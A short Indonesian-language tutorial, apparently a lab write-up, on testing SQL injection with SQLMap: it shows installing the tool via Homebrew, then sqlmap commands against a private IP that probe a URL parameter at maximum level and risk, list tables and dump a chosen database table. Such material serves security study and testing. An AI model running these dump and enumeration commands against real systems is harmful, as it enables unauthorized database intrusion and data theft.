 # Pengujian SQL Injection Menggunakan SQLMap
## Instalasi SQLMap menggunakan Homebrew
Lakukan instalasi `brew install sqlmap`
![](/assets/sqlmap/1.png)
## Pengujian SQL Injection menggunakan SQLMap
1. Untuk melakukan pengecekan pada parameter, apakah mengandung vulnerable `sqlmap --url="http://10.151.36.103/?match=1" --level 5 --risk 3 --dbms mysql`
![](/assets/sqlmap/2.png)
2. `sqlmap --url "http://10.151.36.103/?match=1" --dump -D [database yang diinginkan] -T [tabel yang diinginkan]`
![](/assets/sqlmap/3.png)
3. `sqlmap --url "http://10.151.36.103/?match=1" --tables`
![](/assets/sqlmap/4.png)




